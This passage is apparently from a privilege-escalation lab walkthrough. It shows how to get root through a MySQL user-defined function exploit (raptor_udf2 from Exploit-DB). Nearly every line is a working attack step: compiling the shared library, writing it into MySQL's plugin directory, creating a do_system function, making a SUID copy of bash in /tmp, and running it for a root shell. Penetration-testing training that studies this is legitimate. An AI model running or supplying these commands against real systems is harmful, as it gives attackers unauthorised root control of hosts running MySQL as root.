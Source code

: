 
https://www.exploit-db.com/exploits/1518
`gcc -g -c raptor_udf2.c -fPIC`
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`


mysql -u root

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

`use mysql;`
`create table foo(line blob);`
`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`
`create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`
